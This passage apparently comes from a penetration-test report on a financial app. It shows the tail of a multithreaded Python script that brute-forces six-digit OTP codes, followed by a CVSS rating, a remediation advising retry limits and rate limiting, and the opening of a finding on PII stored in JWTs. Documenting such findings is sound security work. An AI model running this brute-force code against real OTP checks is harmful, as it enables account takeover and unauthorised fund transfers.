 ```python
            continue

        try:
            resp_json = response.json()
        except ValueError:
            print(f"[{otp_str}] Invalid JSON response")
            continue

        status = resp_json.get("status", "")
        status_code = resp_json.get("status_code", "")
        message = resp_json.get("message", "")

        if status == "Success":
            print(f"\n[+] OTP FOUND: {otp_str}")
            print(json.dumps(resp_json, indent=2))
            found_flag.set()
            break
        else:
            print(f"Trying OTP {otp_str}: {message} ({status_code})")

# === Launch Brute-force with 4 Threads ===
if __name__ == "__main__":
    total = 999999
    step = (total + 1) // 4  # Divide 6-digit space across 4 threads

    threads = []
    for i in range(4):
        start = i * step
        end = (i + 1) * step - 1 if i < 3 else total
        t = threading.Thread(target=brute_force_range, args=(start, end))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()
```

**Vulnerability Score:**  
This is a **Critical issue (CVSS ~9.0)** because unrestricted OTP attempts enable attackers with a valid session to brute-force sensitive actions like fund transfers.

**Remedy:**  
Implement strict retry limits on OTP verification (e.g., max 3–5 attempts) with automatic lockout or cooldown periods. Enforce short OTP expiration times and monitor for suspicious activity. Add rate limiting and IP blacklisting to reduce brute-force feasibility.

---
### 12. PII in JWT Tokens

In the analyzed application, the JSON Web Token (JWT) stored in local storage contains a large amount of **Personally Identifiable Information (PII)**, including the user's full name, address, date of birth, mobile number, email address, Aadhar ID, PAN card number, account number, account balance, and other financial details. This violates a fundamental principle of secure token design: **JWTs should contain only essential claims** required for session validation or authorization, not sensitive user data.
